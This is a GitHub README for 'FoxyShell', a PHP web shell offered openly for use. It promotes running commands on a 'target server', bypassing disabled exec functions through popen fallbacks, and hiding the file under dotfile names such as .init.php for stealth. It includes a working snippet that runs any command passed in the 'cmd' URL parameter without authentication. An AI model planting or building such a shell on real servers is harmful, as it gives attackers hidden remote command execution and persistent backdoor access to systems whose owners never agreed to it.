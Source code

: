 # FoxyShell – PHP Web Shell

**FoxyShell** is a flexible, feature-packed **PHP web shell** that can be accessed through a simple interface, offers a pleasant UI, and supports several file operations and a built-in terminal. Even if some PHP functions like `exec` or `shell_exec` are disabled, FoxyShell can attempt to leverage other workarounds (like `popen`, etc.) to run commands – making it resilient in restricted environments.

![Preview](video/demo.gif)
---

## Table of Contents

1. [Features](#features)  
2. [Installation](#installation)  
3. [Usage](#usage)  
4. [Security Recommendations](#security-recommendations)  
5. [FAQ](#faq)  
6. [Credits](#credits)

---

## Features

| Feature             | Description                                                                               |
|---------------------|-------------------------------------------------------------------------------------------|
| **Terminal**        | Run commands on the server (includes fallback if certain PHP functions are disabled).     |
| **File Manager**    | View and manage files with a dynamic sidebar.                                             |
| **Rename**          | Inline rename of files.                                                                    |
| **New File/Folder** | Quickly create files or folders on the server.                                            |
| **Upload**          | Upload files directly via the interface.                                                  |
| **Inline Editor**   | Edit file contents directly in the browser, then save changes to the server.              |
| **Breadcrumb**      | Clickable path segments to move between directories.                                      |
| **Stealth**         | Can be hidden (e.g., rename to .init.php), e.g. `foxyshell.php` → `.init.php`.            |

**Main Selling Points**

- **Works** even if some standard functions (```exec```, ```shell_exec```) are disabled, thanks to alternative methods.  
- **Attractive UI**: Tailwind CSS-based dark mode, icons, truncated filenames, etc.  
- **One-file solution**: just upload ```foxyshell.php``` to your target server, or hide it (e.g. ```.init.php```).  
- **REST-ish endpoints**: can be extended for automation.  
- **Potential** to add an “API KEY” check in ```foxyshell.php``` to secure access.

---

## Installation

1. **Upload** the single file ```foxyshell.php``` to your server.  
2. (Optional) **Hide** it by renaming to a dotfile such as ```.log.php``` or something less conspicuous.  
3. Ensure **permissions** are correct so the script can read/write files on the server.

---

## Usage

1. **Open** the script in your browser, e.g. ```https://example.com/foxyshell.php```.  
2. If you’ve **secured** it with an API key or HTTP Auth, provide those credentials.  
3. Once loaded, you’ll see:
   - **Sidebar** with Refresh, Upload, New File/Folder, and the file list.  
   - **Breadcrumb** to navigate directories.  
   - **Editor** to load and modify a file.  
   - **Terminal** to run commands (like ```ls -1```, ```cd /admin```, etc.).  
4. **Terminal** usage example:

   ```bash
   $ ls
   admin/
   index.php
   ...
   ```

5. **File creation** or **rename** operations are inline: you’ll see an input plus check and X icons to confirm or cancel.

**Example** minimal code snippet (in ```foxyshell.php```), (replace ``` with actual backticks in real usage):
```php
<?php
// Minimal example snippet
// Insert fallback logic for popen / shell_exec, etc.

if (!empty($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    // Use fallback 'popen' if 'exec' is disabled
    $descriptors = @popen($cmd . ' 2>&1', 'r');
    if ($descriptors) {
        while(!feof($descriptors)) {
            echo fgets($descriptors);
        }
        pclose($descriptors);
    } else {
        echo "Failed to run command\n";
    }
    exit;
}

// ... add your UI logic, forms, etc. ...
```

---

## Security Recommendations

- **Restrict Access**: Put this behind **HTTP Basic Auth** or an IP whitelist.  
- **Use HTTPS**: If possible, always run over HTTPS to avoid exposing commands in plaintext.  
- **Rename** to something less obvious (e.g., ```.init.php``` or ```upload-handler.php```).  
- **Log** suspicious IP addresses or set honeypot triggers if you want advanced security.

---

## FAQ

**Q**: What if ```exec``` and ```shell_exec``` are disabled in ```php.ini```?  
**A**: FoxyShell tries alternate methods like ```popen```. If everything is disabled, certain commands might fail – but the file manager, upload, rename, etc., would still work.

**Q**: How do I create folders that start with a dot?  
**A**: In the “New Folder” prompt, type ```.secret``` – the shell calls ```mkdir .secret```.

**Q**: Does the shell require a database?  
**A**: No. It’s a single ```.php``` file – no database or external dependencies needed.

---

## Credits

Made with ❤️ by **RubahIlang**  

